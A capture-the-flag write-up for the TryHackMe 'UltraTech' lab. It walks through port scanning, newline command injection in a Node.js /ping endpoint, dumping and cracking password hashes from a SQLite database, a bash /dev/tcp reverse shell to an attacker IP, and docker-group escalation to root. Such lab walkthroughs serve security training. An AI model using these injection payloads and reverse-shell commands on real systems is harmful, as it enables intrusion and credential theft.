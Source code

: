 https://tryhackme.com/r/room/ultratech1
# IP 
```
10.10.151.132
```
# NMAP
```bash
nmap -p- -T4 10.10.151.132 -v
21
22
8081
31331

nmap -sV -sC 10.10.151.132 -v -p21,22,8081,31331
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 15C1B7515662078EF4B5C724E2927A96
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```
# Web
## Port 8081
some node.js web app

```bash
dirb http://10.10.151.132:8081/
# result
/auth
```

`/auth`
```
You must specify a login and a password
```
if no place, then maybe as a parameter

`http://10.10.151.132:8081/auth?login=a&password=b`
```
Invalid credentials
```

`/ping`
```
TypeError: Cannot read property 'replace' of undefined
    at app.get (/home/www/api/index.js:45:29)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/api/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/api/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/api/node_modules/express/lib/router/index.js:275:10)
    at cors (/home/www/api/node_modules/cors/lib/index.js:188:7)
    at /home/www/api/node_modules/cors/lib/index.js:224:17
```

## Port 31331
apache soft on ubuntu is here
```bash
dirb http://10.10.151.132:31331/
# results
robots.txt

```

`/robots.txt`
```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
`utech_sitemap.txt`
```
/
/index.html
/what.html
/partners.html
```

`/partners.html` -> login form and there is 
`/js/api.js`
```js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();

```
which means that `/ping?ip=`can be abused
## Port 8081
https://book.hacktricks.xyz/pentesting-web/command-injection
`/ping?ip=10.8.97.245 %0A ls`
```
index.js node_modules package.json package-lock.json start.sh utech.db.sqlite 
```

`/ping?ip=10.8.97.245 %0A cat utech.db.sqlite`
```
SQLite format 3@ .,P zz��etableusersusersCREATE TABLE users ( login Varchar, password Varchar, type Int ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84
```
https://crackstation.net/
it gives us `r00t:f357a0c52799563c7c7b76c1e7543a32:n100906`
and `admin:0d0ea5111e3c1def594c1684e3b9be84:mrsheafy`

`http://10.10.151.132:8081/auth?login=admin&password=mrsheafy`
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1

```

## Rev shell
to get rev shell:
`/ping?ip=10.8.97.245 %0A bash -i >& /dev/tcp/10.8.97.245/4242 0>&1`, but it will not work because it escapes some characters.

My solution
```bash
# on terminal
nc -lvnp 1234
# on browser
/ping?ip=10.8.97.245 %0A nc 10.8.97.245 1234 > a.sh
# on terminal
bash -i >& /dev/tcp/10.8.97.245/4242 0>&1
# ctrl+c
nc -lvnp 4242
# on browser
/ping?ip=10.8.97.245 %0A /bin/bash a.sh
```

shell stabilization
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# ctrl+z
stty raw -echo; fg
```

# PrivEsc
```
www@ultratech-prod:~/api$ whoami
www
```
Let's user the creds `r00t:n100906`
```
r00t@ultratech-prod:~$ whoami
r00t
```

Privesc
```
r00t@ultratech-prod:~$ groups
r00t docker
```
https://gtfobins.github.io/gtfobins/docker/
```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```
